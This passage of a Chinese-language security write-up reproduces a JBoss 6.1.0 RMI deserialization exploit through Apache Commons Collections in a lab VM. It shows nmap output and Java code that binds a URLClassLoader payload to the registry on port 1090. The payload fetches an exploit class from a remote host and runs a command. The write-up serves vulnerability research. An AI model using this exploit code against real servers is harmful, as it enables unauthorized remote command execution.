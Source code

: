 这里说明了应用程序在使用RMI机制时，会存在反序列化的问题。如果恰好使用了有缺陷的第三方库，那就可以远程命令执行了。接下来，看看实际场景中的相关漏洞。

0x03 JBoss RMI攻击利用
=====

JBOSS符合我们在上述讨论中的两个条件：

*   它使用了RMI机制进行信息通信，端口1099使用了`jndi`和端口1090则是RMI服务端口。
*   并且包含了`Apache Commons Collections`第三方库。于是就可以说存在远程命令执行漏洞了。

在绿盟科技的文章中，提到了JBOSS中存在使用RMI机制的问题，可以在JMXInvoker删除的情况下获取shell。 于是可以这样重现命令执行。

使用如下命令启动jboss，默认就会对外开放所有端口。当然10.10.10.135代表本机ip。

```
./run.sh -b 10.10.10.135  

```

首先，扫描一下jboss服务器端口，这里我使用的是`jboss-6.1.0.Final`版本，安装在Ubuntu虚拟机中。使用nmap扫描结果如下：

```
1090/tcp open  ff-fms
1091/tcp open  ff-sm
1098/tcp open  rmiactivation
1099/tcp open  rmiregistry
4446/tcp open  n1-fwp
5500/tcp open  hotline
8009/tcp open  ajp13
8080/tcp open  http-proxy
8083/tcp open  us-srv  

```

发现1090端口和1099端口对外开放了。也就是说RMI服务对外开放了。

在这里说一下，在jboss利用上面，按照原文的代码利用，没有重现成功。其中有payload的问题，所以使用了我自己写的封装好的payload，比较方便。另外，我们一开始认为攻击1099端口，我的好同学研究发现应该是1090端口，这才攻击成功。

于是有了以下攻击代码：

```
Object instance = PayloadGeneration.generateURLClassLoaderPayload("http://******:8080/java/", "exploit.ErrorBaseExec", "do_exec", "pwd"); 

InvocationHandler h = (InvocationHandler) instance;
Remote r = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(),new Class[]{Remote.class},h));
Registry registry = LocateRegistry.getRegistry("10.10.10.135", 1090);
try{
    registry.bind("pwned", r); // r is remote obj
}
catch (Throwable e) 
{
    e.printStackTrace();
}   

```
